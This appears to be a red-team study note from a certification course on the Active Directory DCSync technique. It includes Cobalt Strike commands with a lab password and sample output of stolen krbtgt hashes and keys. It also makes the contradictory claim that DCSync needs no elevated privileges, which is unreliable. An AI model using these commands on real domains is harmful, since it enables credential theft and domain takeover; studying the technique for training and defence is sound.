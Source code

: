 The [Directory Replication Service (MS-DRSR) protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) is used to synchronise and replicate Active Directory data between domain controllers.

DCSync is a technique used particularly in the context of [[Active Directory]] environments, to retrieve password data from a [[Domain Controller]] without requiring elevated privileges or directly interacting with the targeted user's account. 

DCSync is a feature within the [[Mimikatz]] toolkit.

## 🖊️ How it works

1. **Domain Controller Interaction**: Mimikatz uses DCSync to interact with the domain controller's replication protocol, which is used to synchronize data between domain controllers in an Active Directory environment.
    
2. **Password Retrieval**: With DCSync, an attacker can request password data for a specified user account from the domain controller. This includes the password hash ([[NetNTLM]] or [[Kerberos]]) and other relevant information associated with the account.
    
3. **Low-Level Access**: Unlike traditional methods of password retrieval, such as credential dumping or brute force attacks, DCSync does not require elevated privileges or direct access to the target user's account. Instead, it leverages the domain controller's replication mechanism, making it a stealthy and effective technique for obtaining password data.

  This requires [GetNCChanges](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894) which is usually only available to domain admins.  The technique is included here for completeness, and it will be useful later on.

## 🖊️ via [[Cobalt Strike]]

1) Beacon has a dedicated `dcsync` command, which calls `mimikatz lsadump::dcsync` in the background.

```
beacon> make_token DEV\nlamb F3rrari

beacon> dcsync dev.cyberbotic.io DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

Credentials:
  Hash NTLM: 9fb924c244ad44e934c390dc17e02c3d
    ntlm- 0: 9fb924c244ad44e934c390dc17e02c3d
    lm  - 0: 207d5e08551c51892309c0cf652c353b
		
* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e
      aes128_hmac       (4096) : 6fb62ed56c7de778ca5e4fe6da6d3aca
      des_cbc_md5       (4096) : 629189372a372fda
```

Here we have extracted the NTLM and AES keys for the krbtgt account using _nlamb_ (a domain admin).

### ⚠ Opsec

Directory replication can be detected if Directory Service Access auditing is enabled.

### Properties
---
📆 created   {{10-02-2024}} 21:57
🏷️ tags: #activedirectory #redteam #crto 

---

